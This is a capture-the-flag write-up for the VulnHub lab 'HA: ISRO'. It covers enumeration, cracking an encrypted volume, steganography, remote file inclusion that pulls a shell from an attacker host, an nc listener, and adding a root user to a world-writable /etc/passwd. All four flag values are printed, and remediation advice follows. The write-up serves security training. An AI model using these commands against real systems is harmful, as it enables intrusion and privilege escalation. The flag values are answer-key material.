





# HA: ISRO — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.104 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Flags** | 4 (Bhaskara, Aryabhata, Mangalyaan, Chandrayaan) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-isro,422/) |

## Attack Summary

`nmap → dirb → base64 decode → TrueCrypt volume (john: xavier) → steghide JPG → LFI in connect.php → reverse shell → MySQL root → writable /etc/passwd → root`

## Methodology

1. Network discovery and port scan
2. Web enumeration with dirb
3. Base64 hint → TrueCrypt volume download
4. Crack volume with John the Ripper → mount in VeraCrypt
5. Steghide extracts Flag 2 from `aryabhata.jpg`
6. LFI in `connect.php` → PHP reverse shell
7. MySQL root (no password) → Flag 3 in `flag` database
8. World-writable `/etc/passwd` → inject UID 0 user → root → Flag 4

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.104
```

Open ports: 22 (SSH), 80 (HTTP).



---

## Step 2: Web Enumeration

```bash
dirb http://192.168.1.104
dirb http://192.168.1.104 -X .php
```

Finds `bhaskara.html` and `connect.php`.

View source of `bhaskara.html`:

```html
<!-- L2JoYXNrYXJh -->
```

Decode the base64:

```bash
echo "L2JoYXNrYXJh" | base64 -d
# /bhaskara
```

Browse to `http://192.168.1.104/bhaskara/` → downloads TrueCrypt volume `bhaskara`.



---

## Step 3: Crack TrueCrypt Volume

Extract the hash and crack it:

```bash
python true.py bhaskara > hashes
john hashes --wordlist=/usr/share/wordlists/rockyou.txt
john hashes --show
# Password: xavier
```

Mount in **VeraCrypt** with password `xavier`. The volume contains `aryabhata.jpg`.

**Flag 1 — Bhaskara:** Inside the volume metadata or a text file.
`{b7bb88578a70970b9be45ac8630b6f9d}`



---

## Step 4: Steghide — Flag 2 (Aryabhata)

```bash
steghide extract -sf aryabhata.jpg
# Enter passphrase (blank or try 'xavier')
# Extracts: flag.txt
cat flag.txt
# {e39cf1cbb00f09141259768b6d4c63fb}
```

**Flag 2 — Aryabhata:** `{e39cf1cbb00f09141259768b6d4c63fb}`

---

## Step 5: LFI in connect.php → Reverse Shell

Test file inclusion:

```bash
curl "http://192.168.1.104/connect.php?file=/etc/passwd"
# /etc/passwd content shown → LFI confirmed
```

Host a PHP reverse shell on the attacker:

```bash
# /tmp/shell.php: <?php system($_GET['cmd']); ?>  or full reverse shell
python3 -m http.server 80
```

Trigger via LFI + URL fetch:

```bash
curl "http://192.168.1.104/connect.php?file=http://192.168.1.103/shell.php"
```

On listener:

```bash
nc -lvp 1234
# Shell received as www-data
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



---

## Step 6: MySQL Root — Flag 3 (Mangalyaan)

```bash
netstat -antp
# MySQL on 3306 (localhost)
mysql -u root
# No password required
show databases;
use flag;
show tables;
select * from flag;
# {d8a7f803e36f1c84e277009bf2c0f435}
```

**Flag 3 — Mangalyaan:** `{d8a7f803e36f1c84e277009bf2c0f435}`

---

## Step 7: Writable /etc/passwd → Root — Flag 4 (Chandrayaan)

```bash
ls -la /etc/passwd
# -rw-rw-rw-  ← world-writable!
```

Generate a password hash and inject a new root user:

```bash
openssl passwd -1 -salt user3 pass123
# $1$user3$rAGRVf5p2jYTqtq0W5cPu/
echo 'rootme:$1$user3$rAGRVf5p2jYTqtq0W5cPu/:0:0:root:/root:/bin/bash' >> /etc/passwd
su rootme
# Password: pass123
id
# uid=0(root) gid=0(root)
cat /root/flag4.txt
# {0ad8d59efe7ce5c820aa7350a5d708b2}
```

**Flag 4 — Chandrayaan:** `{0ad8d59efe7ce5c820aa7350a5d708b2}`



---

## Flags Summary

| Flag | Value |
|------|-------|
| Bhaskara | `{b7bb88578a70970b9be45ac8630b6f9d}` |
| Aryabhata | `{e39cf1cbb00f09141259768b6d4c63fb}` |
| Mangalyaan | `{d8a7f803e36f1c84e277009bf2c0f435}` |
| Chandrayaan | `{0ad8d59efe7ce5c820aa7350a5d708b2}` |

---

## Lessons Learned

1. **Base64 in HTML comments** is a classic CTF hint mechanism — always inspect page source
2. **TrueCrypt/VeraCrypt volumes** can be cracked if the passphrase is in a wordlist
3. **LFI with remote file inclusion** (`allow_url_include=On`) gives direct RCE
4. **MySQL running as root with no password** is a critical misconfiguration
5. **World-writable /etc/passwd** is an instant privilege escalation vector — trivial and unrecoverable

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| LFI in connect.php | Validate and whitelist the `file` parameter; disable `allow_url_include` |
| MySQL root with no password | Set a strong MySQL root password; restrict root to localhost with proper auth |
| World-writable /etc/passwd | `chmod 644 /etc/passwd`; monitor file integrity with AIDE or Tripwire |
| Sensitive file in webroot | Move TrueCrypt containers out of the webroot; use authentication |
| Steganography as security | Defense-in-depth only; never rely on obscurity |
